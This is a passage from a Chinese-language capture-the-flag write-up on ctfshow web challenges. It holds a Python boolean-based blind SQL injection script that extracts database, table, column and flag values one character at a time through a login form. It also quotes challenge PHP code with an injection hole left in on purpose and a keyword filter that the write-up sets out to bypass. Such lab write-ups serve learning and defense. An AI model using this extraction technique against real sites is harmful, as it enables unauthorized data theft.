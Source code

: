 ```python
    i = 0
    dump = ""
    while True:
        i += 1
        head = 0
        tail = 127
        while head < tail:
            mid = (head + tail) // 2
            data = {
                "username": payload.format(i, mid),
                "password": 0,
            }
            response = requests.post(url=url, data=data)
            if "密码错误" in response.json()['msg']:
                head = mid + 1
            else:
                tail = mid
        if head == 0:
            return dump
        dump += chr(head)

if "__main__" == __name__:
    database = getDatabase()
    print("[+]the database is: ",database)     # 得到 ctfshow_web
    table_name = getTable()
    print("[+]the table_names are: ",table_name)   # 得到  ctfshow_fl0g,ctfshow_user
    column_name = getColumn()
    print("[+]the column_name are: ", column_name)   # 得到 id,f1ag
    dump = get_dump()
    print("[+]the flag is :",dump)
```

## web191~ord代替ascii

> 查询语句
>
> ```
>   //拼接sql语句查找指定ID用户
>   $sql = "select pass from ctfshow_user where username = '{$username}'";
>       
> ```
>
> 返回逻辑
>
> ```
>   //密码检测
>   if(!is_numeric($password)){
>     $ret['msg']='密码只能为数字';
>     die(json_encode($ret));
>   }
> 
>   //密码判断
>   if($row['pass']==$password){
>       $ret['msg']='登陆成功';
>     }
> 
>   //TODO:感觉少了个啥，奇怪
>     if(preg_match('/file|into|ascii/i', $username)){
>         $ret['msg']='用户名非法';
>         die(json_encode($ret));
>     }
> ```
